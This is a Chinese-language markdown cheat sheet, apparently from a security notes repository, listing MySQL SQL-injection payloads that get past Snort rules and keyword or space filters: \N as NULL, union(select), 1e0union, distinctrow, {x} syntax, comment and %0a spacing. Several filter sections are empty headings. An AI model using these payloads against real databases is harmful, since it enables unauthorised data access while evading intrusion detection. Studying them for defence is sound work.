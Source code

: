 ### \N绕过
* \N在mysql中相当于NULL的意思，干扰snort匹配
* \N后如果接from，可以不带空格
```
select * from test where id=\Nunion select \N,2,3
```
#### 绕过原理
![](./mysql注入绕过技巧/pic3.png)


### union(select)绕过
将union select变为union(select)
```
select * from test where id=1 union(select 1,2,3)
```

### 科学技术法绕过
```
select * from test where id=1e0union select 1,2,3
```

### union distinctrow select绕过
snort规则通常会针对union select匹配，如果中间加入distinctrow有可能可以bypass
```
select * from test where id=1 union distinctrow select 1,2,3
```

### {}绕过
在5.5及以上版本的mysql中支持该语法，如果规则不当，可能会出现绕过
```
select{x 列名1},{x 列名2}from{x 表名}
```




## 过滤绕过

### order by过滤绕过
### <>过滤绕过
### and过滤绕过
### 替换过滤绕过
### 空格过滤绕过    
空格过滤可以用很多方式来进行绕过，举个例子：
```
select * from test where id=1 union select 1,2,3
```
过滤后会变成
```
select * from test where id=1unionselect1,2,3
```
解决方法：
```
select * from test where id=1/**/union/**/select/**/1,2,3

select * from test where id=1e0union(select-1,2,3)

select * from test where id=1%0aunion%0aselect%0a1,2,3

select * from test where id=1e0union(select(1),(2),(3));

select * from test where id=1e0union(select(1),(2),(3)/**/from(test))
```